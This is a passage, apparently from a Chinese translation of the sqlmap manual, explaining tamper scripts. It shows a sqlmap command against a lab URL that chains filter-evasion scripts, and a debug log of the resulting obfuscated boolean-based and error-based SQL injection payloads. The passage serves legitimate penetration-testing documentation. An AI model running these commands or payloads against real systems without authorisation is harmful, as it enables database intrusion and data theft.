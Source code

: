 ```python

    # return the tampered payload
    return retVal
```

你可以在 `tamper/` 目录中查看有效和可用的修改脚本。

针对 MySQL 目标，假定字符 `>`、空格和大写的 `SELECT` 字符串被禁止：

```shell
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause
'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONC
AT(cHar(58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/
**/elsE/**/0/**/ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/info
rmation_schema.tables/**/group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or
 HAVING clause' injectable
[...]
```

